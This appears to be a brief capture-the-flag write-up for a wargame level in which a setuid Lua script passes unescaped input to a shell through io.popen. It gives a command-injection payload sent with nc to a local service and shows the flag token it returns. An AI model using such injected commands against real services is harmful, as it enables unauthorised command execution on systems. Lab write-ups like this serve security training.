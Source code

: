 ```sh
$> ls -l
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua

$> cat level11.lua
[...]
prog = io.popen("echo "..pass.." | sha1sum", "r")
[...]
```

`pass` is not protected, we can inject some commands here

```sh
$> echo '; getflag > /tmp/tok' | nc 127.0.0.1 5151

$> cat /tmp/tok
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
